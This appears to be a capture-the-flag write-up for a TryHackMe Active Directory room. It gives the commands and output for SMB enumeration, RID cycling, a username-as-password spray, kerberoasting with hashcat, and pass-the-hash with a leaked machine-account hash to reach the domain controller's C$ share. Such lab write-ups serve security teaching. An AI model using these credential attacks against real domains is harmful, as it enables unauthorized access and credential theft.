



## Overview

[SoupedeCode 01](https://tryhackme.com/room/soupedecode01) is a domain controller box — the whole path runs through Active Directory authentication, no web app in sight. We start from an anonymous SMB guest session, turn that into a full list of domain users, and find one account whose password is just its own username. That foothold is enough to kerberoast a service account, which in turn can read a share holding a dump of machine-account NTLM hashes. One of those hashes belongs to a machine account that can read `C$`, and that's domain root.

## Enumeration

First scan came back empty:

```bash
nmap -p- --min-rate 5000 -T4 soupedecode01.thm
```

```text
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 1.02 seconds
```

The room description already tells us it's a Windows domain controller, so a dead host almost certainly means ICMP is dropped rather than the box being down. Re-run with `-Pn` to skip host discovery:

```bash
nmap -p- --min-rate 5000 -T4 soupedecode01.thm -Pn
```

```text
PORT     STATE SERVICE
53/tcp   open  domain
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
593/tcp  open  http-rpc-epmap
3268/tcp open  globalcatLDAP
3389/tcp open  ms-wbt-server
```

DNS, RPC, SMB, the global catalog on 3268, RDP. This is a DC. No web, so the way in is going to be an SMB or Kerberos weakness, and the first cheap question is always what an unauthenticated user can see.

Start with guest access to the shares:

```bash
smbmap -H soupedecode01.thm -u 'guest' -p ''
```

```text
[+] IP: 10.112.171.155:445      Name: soupedecode01.thm         Status: Authenticated
Disk                                                    Permissions     Comment
----                                                    -----------     -------
ADMIN$                                                  NO ACCESS       Remote Admin
backup                                                  NO ACCESS
C$                                                      NO ACCESS       Default share
IPC$                                                    READ ONLY       Remote IPC
NETLOGON                                                NO ACCESS       Logon server share
SYSVOL                                                  NO ACCESS       Logon server share
Users                                                   NO ACCESS
```

Guest authenticates but can't read anything useful yet. There's a non-default `backup` share, which is worth remembering for later. `IPC$` being readable is the interesting part — that's the pipe RID cycling rides on.

Next I wanted a user list. A couple of the obvious enumeration paths dead-ended first:

```bash
nxc smb soupedecode01.thm -u 'guest' -p '' --users
```

```text
SMB   10.112.171.155  445  DC01  [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL)
SMB   10.112.171.155  445  DC01  [-] Broken Pipe Error while attempting to login
```

The guest `--users` call just broke the pipe. LDAP anonymous bind was no better:

```bash
nxc ldap soupedecode01.thm -u '' -p '' --users
```

```text
LDAP  10.112.171.155  389  DC01  [-] Error in searchRequest -> operationsError: ... In order to
      perform this operation a successful bind must be completed on the connection.
```

Anonymous LDAP reads are locked down, so no free user dump there. A base-scope `ldapsearch` still answers though — the rootDSE is readable without a bind:

```bash
ldapsearch -x -H ldap://soupedecode01.thm -s base
```

```text
rootDomainNamingContext: DC=SOUPEDECODE,DC=LOCAL
ldapServiceName: SOUPEDECODE.LOCAL:dc01$@SOUPEDECODE.LOCAL
dnsHostName: DC01.SOUPEDECODE.LOCAL
defaultNamingContext: DC=SOUPEDECODE,DC=LOCAL
```

That confirms the domain (`SOUPEDECODE.LOCAL`) and the DC hostname (`DC01`). `enum4linux-ng -A` filled in the rest — it couldn't get a null session but it did confirm the box hands out a guest session to any username, and that SMB signing is required:

```text
[*] Check for anonymous access (null session)
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for guest access
[+] Server allows authentication via username 'bbqiyryd' and password ''
```

Add the domain to `/etc/hosts` and point tooling at `SOUPEDECODE.LOCAL`.

I tried kerbrute next to see which usernames are real, since it only needs the KDC and doesn't log failed pre-auth as logons:

```bash
./kerbrute_linux_amd64 userenum --dc SOUPEDECODE.LOCAL -d SOUPEDECODE.LOCAL \
  /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt
```

```text
[+] VALID USERNAME:  guest@SOUPEDECODE.LOCAL
[+] VALID USERNAME:  admin@SOUPEDECODE.LOCAL
[+] VALID USERNAME:  administrator@SOUPEDECODE.LOCAL
Done! Tested 17 usernames (3 valid) in 0.454 seconds
```

A bigger name list only added one more:

```bash
./kerbrute_linux_amd64 userenum --dc SOUPEDECODE.LOCAL -d SOUPEDECODE.LOCAL \
  /usr/share/wordlists/seclists/Usernames/Names/names.txt
```

```text
[+] VALID USERNAME:  admin@SOUPEDECODE.LOCAL
[+] VALID USERNAME:  charlie@SOUPEDECODE.LOCAL
Done! Tested 10735 usernames (2 valid) in 325.632 seconds
```

So kerbrute proves the domain exists and a handful of generic accounts are valid, but a dictionary of first names was never going to match this domain's naming scheme — the accounts here look machine-generated, not `charlie`. I also checked whether the guest session leaks the password policy, and it doesn't:

```bash
nxc smb 10.112.171.155 -u 'guest@SOUPEDECODE.LOCAL' -p '' --pass-pol
```

```text
SMB   10.112.171.155  445  DC01  [+] SOUPEDECODE.LOCAL\guest@SOUPEDECODE.LOCAL: (Guest)
```

The `(Guest)` tag means the server downgraded us to a guest session and returned nothing — no policy.

The real user list came from RID cycling over that readable `IPC$` pipe, using the guest account:

```bash
nxc smb 10.112.171.155 -u guest -p '' --rid-brute
```

That walks the domain's RIDs and prints every object name. Cut the usernames out into `users.txt` and the real naming scheme shows up — short handles like `bmark0`, `otara1`, `ybob317`, nothing like the name wordlist.

## Initial Access

With a real user list, the cheapest credential attack on AD is to try each username as its own password. `nxc` does this in one pass when you feed the same file to `-u` and `-p`:

```bash
nxc smb SOUPEDECODE.LOCAL -u users.txt -p users.txt --no-brute --continue-on-success
```

```text
SMB   10.112.171.155  445  DC01  [-] SOUPEDECODE.LOCAL\Administrator:Administrator STATUS_LOGON_FAILURE
SMB   10.112.171.155  445  DC01  [-] SOUPEDECODE.LOCAL\Guest:Guest STATUS_LOGON_FAILURE
SMB   10.112.171.155  445  DC01  [-] SOUPEDECODE.LOCAL\bmark0:bmark0 STATUS_LOGON_FAILURE
SMB   10.112.171.155  445  DC01  [-] SOUPEDECODE.LOCAL\otara1:otara1 STATUS_LOGON_FAILURE
...
SMB   10.112.171.155  445  DC01  [+] SOUPEDECODE.LOCAL\ybob317
```

One hit: `ybob317`, with its password set to its own username. Everything else in the sweep failed, which is why `--continue-on-success` matters — the one good account was deep in the list.

Authenticated enum4linux now returns the things the guest session wouldn't, starting with the password policy:

```bash
enum4linux-ng -A -u ybob317 -p ybob317 SOUPEDECODE.LOCAL
```

```text
Lockout threshold: None
```

> Lockout threshold `None` means failed logins never lock an account, so password spraying across the whole domain carries no risk of locking people out. That's what made the username-as-password sweep safe to run at full width.
{: .prompt-tip }

The same run also surfaced a set of service accounts, which is the thread the privesc hangs off:

```text
firewall_svc
backup_svc
web_svc
monitoring_svc
file_svc
```

Service accounts in AD almost always carry an SPN, and an SPN means kerberoastable — parked for the next stage. First, the user flag. `ybob317` can read the `Users` share, so pull the home directory recursively and the flag is sitting on the desktop:

```bash
smbclient //10.112.171.155/Users -U 'ybob317%ybob317' -c 'recurse ON; prompt OFF; ls'
```

```text
\ybob317\Desktop\user.txt
```

```bash
smbclient //10.112.171.155/Users -U 'ybob317%ybob317' \
  -c 'get ybob317\Desktop\user.txt'
```

> **User flag:** `THM{...}`
{: .prompt-info }

## Privilege Escalation

### WinRM is a dead end

The obvious next move is an interactive shell, so I checked WinRM:

```bash
nxc winrm SOUPEDECODE.LOCAL -u 'ybob317' -p 'ybob317'
```

```text
WINRM  10.112.171.155  5985  DC01  [-] SOUPEDECODE.LOCAL\ybob317:ybob317
```

No remote management rights for this user. Fine — the account's value isn't a shell, it's the read access that lets us kerberoast. Back to those service accounts.

### Kerberoasting file_svc

`GetUserSPNs.py` with `ybob317`'s credentials lists every account that has an SPN, and requests a TGS for each one:

```bash
GetUserSPNs.py SOUPEDECODE.LOCAL/ybob317:ybob317 -dc-ip 10.112.171.155 \
  -request -outputfile kerberoast_hashes.txt
```

| ServicePrincipalName    | Account        |
| ----------------------- | -------------- |
| FTP/FileServer          | file_svc       |
| FW/ProxyServer          | firewall_svc   |
| HTTP/BackupServer       | backup_svc     |
| HTTP/WebServer          | web_svc        |
| HTTPS/MonitoringServer  | monitoring_svc |

Those TGS tickets are encrypted with the service account's password hash, so they crack offline with no noise on the box. Mode `13100` is the Kerberos 5 TGS-REP (RC4) format:

```bash
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
```

`file_svc` fell to rockyou; the other four didn't crack. That gives a second set of credentials — `file_svc` : `<SVC_PASS>`.

### Looting the backup share

`file_svc` turns out to have access the first account didn't. Re-running `smbmap` as the service account, the `backup` share flips from `NO ACCESS` to `READ ONLY`:

```bash
smbmap -H SOUPEDECODE.LOCAL -u 'file_svc' -p '<SVC_PASS>'
```

```text
Disk        Permissions     Comment
----        -----------     -------
backup      READ ONLY
```

Inside is a single file:

```bash
smbclient //10.112.171.155/backup -U 'file_svc%<SVC_PASS>' -c 'ls; get backup_extract.txt'
```

```text
backup_extract.txt   A   892   Mon Jun 17 08:41:05 2024
```

It's a dump of machine-account NTLM hashes — every `*Server$` account in the domain:



A list of NTLM hashes is a list of credentials. We can crack them offline, or skip that entirely and pass the hash directly.

### Pass-the-Hash to FileServer$

Split the file into a usernames file and a hashes file, then spray them as hash logins — username N against hash N:

```bash
nxc smb SOUPEDECODE.LOCAL -u kerb_users.txt -H kerb_hashes.txt --no-brute
```



`FileServer$` comes back `(Pwn3d!)` — the `$` tells us it's a machine account, and `Pwn3d!` means that hash has local admin somewhere. Checking its share access confirms it:

```text
Share     Permissions
-----     -----------
ADMIN$    READ,WRITE
C$        READ,WRITE
```

`FileServer$` can read and write `C$` on the DC. That's game over.

### Domain root via C$

Authenticate to `C$` with the machine-account hash and walk to the administrator's desktop:

```bash
smbclient //SOUPEDECODE.LOCAL/C$ -U 'SOUPEDECODE.LOCAL/FileServer$' --pw-nt-hash '<NTLM_HASH>'
```

```text
smb: \> cd Users\Administrator\Desktop
smb: \Users\Administrator\Desktop\> ls
  root.txt   A   33   Fri Jul 25 17:51:20 2025
smb: \Users\Administrator\Desktop\> get root.txt
```

> **Root flag:** `THM{...}`
{: .prompt-info }

## Conclusion

The chain, in order:

1. **Guest session + readable `IPC$`.** The box authenticates any username as guest, which was enough to RID-cycle the domain and recover the real user list.
2. **Password equals username.** One account, `ybob317`, had its password set to its own username — caught by spraying the user list against itself, safe to do because the lockout threshold was `None`.
3. **Kerberoasting.** `ybob317`'s read access let us pull SPN tickets; `file_svc` cracked against rockyou.
4. **Hash dump on a share.** `file_svc` could read a `backup` share containing every machine account's NTLM hash.
5. **Pass-the-Hash to a privileged machine account.** `FileServer$` had read/write on `C$`, so its leaked hash gave a direct read of the administrator's desktop — no shell needed.

### Tools used

| Stage                | Tools                                   |
| -------------------- | --------------------------------------- |
| Scanning             | nmap                                    |
| SMB / LDAP enum      | smbmap, nxc, ldapsearch, enum4linux-ng  |
| User enumeration     | kerbrute, nxc (--rid-brute)             |
| Credential attacks   | nxc (spray + pass-the-hash)             |
| Kerberoasting        | GetUserSPNs.py, hashcat                 |
| Loot / flags         | smbclient                               |


